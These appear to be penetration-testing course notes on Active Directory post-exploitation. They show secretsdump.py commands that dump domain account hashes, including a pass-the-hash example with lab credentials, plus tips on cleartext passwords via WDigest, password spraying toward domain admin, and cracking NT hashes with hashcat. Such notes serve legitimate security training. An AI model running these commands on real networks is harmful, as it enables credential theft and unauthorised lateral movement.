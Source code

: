 dumping hashes 
	secretsdump.py <DOMAIN/user>: '<password>'@<IP>
		ex
			secretsdump.py MARVEL.local/tstark: 'Password2'@192.168.88.102
	you can also do it with hashes
		ex
			secretsdump.py administrator:192.168.88.101 -hashes ad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
All accounts on the device besides: Guest, Default, WDGAUtilityAccount are worth looking at 

There is a chance to dump passwords in clear text
	passwords stored in the registry - they will appear in clear text
	if wdigest (older protocol) 
		enabled by default on older OS
			want to find an older OS via info gathering 
			this process might be enabled by default
when pentesting a real network, once we have a foothold on an acccount, use that account to spray the rest of the network, you can then find more accounts, and then spray again. this can allow you to finally find an domain admin or gain higher priv

Cracking passwords
	you only need the second portion (NT) 
	hashcast --help 
	hashcat --help | grep ntlm

